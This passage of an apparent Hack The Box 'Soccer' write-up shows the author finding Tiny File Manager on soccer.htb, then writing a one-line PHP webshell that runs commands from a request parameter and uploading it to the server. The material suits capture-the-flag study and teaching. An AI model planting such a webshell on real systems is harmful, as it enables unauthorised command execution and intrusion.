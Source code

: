 The Tiny File Manager's landing page shows all the soccer website's static assets.

The URL is [http://soccer.htb/tiny/tinyfilemanager.php?p=tiny](http://soccer.htb/tiny/tinyfilemanager.php?p=tiny), meaning ChatGPT was right, and the web server must be running PHP. Browsing around in the `tiny` directory reveals the `Tiny Fie Manager` application and an empty upload directory.

![Contents of the file folder showing tinyfilemanager.php and the uploads folder.](../../../assets/2023-06-13-hack-the-box-soccer/Untitled6.png)

Contents of the file folder showing tinyfilemanager.php and the uploads folder.

### Shell

I craft a simple PHP webshell and save it as `cmd.php` on my local machine.

```php
<?php system($_REQUEST["cmd"]); ?>
```

Via the upload button, I can drop my reverse shell onto the server.

![Untitled](../../../assets/2023-06-13-hack-the-box-soccer/Untitled7.png)
